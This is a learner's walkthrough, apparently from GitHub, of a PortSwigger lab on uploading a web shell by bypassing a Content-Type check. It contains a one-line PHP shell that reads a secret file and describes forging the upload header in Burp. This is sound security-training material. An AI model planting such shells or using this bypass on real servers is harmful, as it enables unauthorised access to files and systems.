 # Lab: Web shell upload via Content-Type restriction bypass

## Description

 This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file */home/carlos/secret*. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: *wiener:peter*

## Tips from Portswigger

 When submitting HTML forms, the browser typically sends the provided data in a POST request with the content type application/x-www-form-url-encoded. This is fine for sending simple text like your name, address, and so on, but is not suitable for sending large amounts of binary data, such as an entire image file or a PDF document. In this case, the content type multipart/form-data is the preferred approach.

Consider a form containing fields for uploading an image, providing a description of it, and entering your username. Submitting such a form might result in a request that looks something like this: 

```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

With this in mind, I should keep an eye out for a post request like this while mapping the application.

# Step 1 Mapping the image upload functionality.

I see that I can post an image to the server much like I could in the last lab. And I can see where the server is saving my file.

![image](https://user-images.githubusercontent.com/83407557/171187206-bff8ff4e-aa00-41da-a774-b26c42134adf.png)

Also the post request looks much like the one in the portswigger tip example. With the multipart/form-data and content-type headers.

![image](https://user-images.githubusercontent.com/83407557/171187078-de64a9f0-cb3a-4001-ad65-e51b83945640.png)

# Step 2 Attempt to upload the same webshell as last lab
get_secret.php
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```


Trying to upload my get_secret.php, I get the following error:

![image](https://user-images.githubusercontent.com/83407557/171187609-2ef13ac6-9b3b-46c7-bbc0-ef40f0bbf4bd.png)

I can see the content-type in my request is indeed changed.

![image](https://user-images.githubusercontent.com/83407557/171188150-96b685b0-f755-43b2-bb04-946feadaec95.png)


# Step 3 intercept request and change value before sending to sever.

I am going to re-attempt to submit my get_secret.php, however this time I will turn burp's intercept on first.

![image](https://user-images.githubusercontent.com/83407557/171188509-405fd3af-6d6a-4c40-abed-4607b81abf97.png)

I get the request and change the content-type to image/jpeg

![image](https://user-images.githubusercontent.com/83407557/171188841-591e0189-d75c-4c31-a8e2-d62c0afb7c5d.png)


And do not get the same error

![image](https://user-images.githubusercontent.com/83407557/171188918-1c2ea0f9-100b-4804-8901-6c30ab5f3487.png)

# Step 4 Execute websell on server

I already know the directory structure from step 1, so now I just have to turn intercept back off, and go to /files/avatars/get_secret.php

![image](https://user-images.githubusercontent.com/83407557/171189194-7a016b33-d77a-4073-aa67-efd0b7466dfe.png)

# Step 5 Submit secret

![image](https://user-images.githubusercontent.com/83407557/171189356-bda44624-db58-4490-83a9-71a458479b22.png)

![image](https://user-images.githubusercontent.com/83407557/171189433-f581759f-3599-43f6-bafb-d6d379731fa1.png)

